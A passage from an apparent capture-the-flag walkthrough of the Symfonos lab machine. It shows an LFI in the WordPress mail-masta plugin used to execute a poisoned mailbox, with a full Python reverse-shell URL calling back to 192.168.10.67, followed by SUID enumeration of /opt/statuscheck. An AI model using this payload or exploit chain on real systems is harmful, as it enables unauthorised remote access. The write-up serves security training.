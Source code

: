Now `helios` users mailbox has the malicious payload. We can read this using the LFI found in the plugins 

[`http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.67",8181)](http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.10.67%22,8181)));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`

`pl` parameter has the file to read, in this case mail of user helios

`cmd` has the command to run, in this case a python reverse shell

## Inside the box

There is a binary with suid set

```jsx
helios@symfonos:/home/helios$ find / -perm /4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
**/opt/statuscheck**
/bin/mount
/bin/umount
/bin/su
/bin/ping
```

This binary is somewhat different. Let's have a look at it

```jsx
**helios@symfonos:/opt$ file statuscheck**
statuscheck: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4dc315d863d033acbe07b2bfc6b5b2e72406bea4, not stripped
```

```jsx
**helios@symfonos:/opt$ strings statuscheck**
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
**curl -I H
http://lH
ocalhostH**
AWAVA
AUATL
[]A\A]A^A_
;*3$"
GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 20170516
crtstuff.c
__JCR_LIST__
```